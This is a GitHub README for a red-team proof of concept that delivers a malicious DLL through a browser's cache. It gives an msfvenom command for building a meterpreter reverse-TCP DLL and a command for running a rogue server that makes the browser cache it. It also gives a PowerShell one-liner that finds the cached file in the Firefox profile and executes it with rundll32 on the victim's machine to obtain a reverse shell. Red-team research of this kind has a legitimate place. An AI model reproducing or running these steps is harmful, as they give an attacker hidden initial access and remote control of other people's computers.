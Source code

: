 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

- To better understand how this attack work , please navigate to : 
# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![[image.png]]

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```

and we will get our reverse shell !! 
